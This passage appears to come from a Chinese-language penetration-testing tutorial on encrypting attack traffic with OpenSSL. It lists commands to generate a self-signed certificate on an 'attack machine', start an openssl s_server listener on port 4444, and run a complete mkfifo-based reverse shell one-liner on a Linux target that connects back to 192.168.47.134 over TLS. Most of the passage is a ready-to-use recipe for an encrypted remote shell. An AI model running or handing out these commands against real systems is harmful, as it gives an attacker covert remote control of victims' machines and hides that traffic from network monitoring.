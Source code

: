 

3.查看openssl版本验证是否安装成功

```
#openssl version
```



## OpenSSL使用流程

### 1.生成自签名证书

在攻击机输入如下命令生成自签名证书, 此处采用的是RSA加密方式; 随后会要求输入证书信息, 直接一路回车即可

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

> 命令语法: openssl req -x509 -newkey rsa:4096 -keyout [key文件] -out [cert文件] -days 365 -nodes

![image-20221105154017781](流量加密/image-20221105154017781.png)



### 2.反弹加密Shell

#### Linux客户端

在攻击机创建服务端, 监听本机的4444端口

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```



在linux客户端输入如下命令进行反弹shell

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.47.134:4444 > /tmp/s; rm /tmp/s
```
